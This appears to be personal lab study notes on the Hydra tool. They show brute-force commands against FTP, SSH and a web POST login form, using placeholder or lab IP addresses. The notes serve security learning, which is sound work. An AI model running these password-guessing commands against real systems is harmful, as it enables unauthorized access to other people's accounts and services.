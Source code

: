 ```yaml
---
title: 6.1 Hydra
updated: 2023-03-22T16:48:09.0000000+04:00
created: 2023-03-22T15:44:58.0000000+04:00
---
```


6.1 Hydra
Wednesday, March 22, 2023
3:44 PM
**<u>Hydra Commands</u>**

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

| Command | hydra -l user -P passlist.txt <ftp://MACHINE_IP> |
|---------|--------------------------------------------------|

**<u>SSH Commands</u>**

| Command | hydra -l \<username\> -P \<full path to pass\> MACHINE_IP -t 4 ssh |
|---------|--------------------------------------------------------------------|

![image1](image1-48.png)

**<u>Post Web Form:</u>**

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

| Command | hydra -l \<username\> -P \<wordlist\> 10.10.49.17 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V |
|---------|---------------------------------------------------------------------------------------------------------------------|

